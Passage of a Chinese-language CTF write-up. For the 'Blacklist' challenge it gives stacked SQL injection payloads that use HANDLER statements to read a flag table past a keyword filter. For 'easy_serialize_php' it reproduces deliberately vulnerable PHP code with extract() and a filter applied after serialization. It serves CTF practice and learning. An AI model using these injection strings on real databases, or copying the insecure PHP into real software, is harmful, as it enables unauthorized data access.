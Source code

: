 ## [GYCTF2020] Blacklist

存在过滤语句 `return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`，无法 `select`，可以考虑堆叠注入：
```
-1';show tables;#
-1';show columns from FlagHere;#
```

可以得到列名为 `flag`，然后通过 `HANDLER` 语法读取 flag。

```
-1';handler FlagHere open; handler FlagHere read first; handler close;#
```

## [安洵杯 2019]easy_serialize_php


```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function =='highlight_file'){
    highlight_file('index.php');
}else if($function =='phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function =='show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```
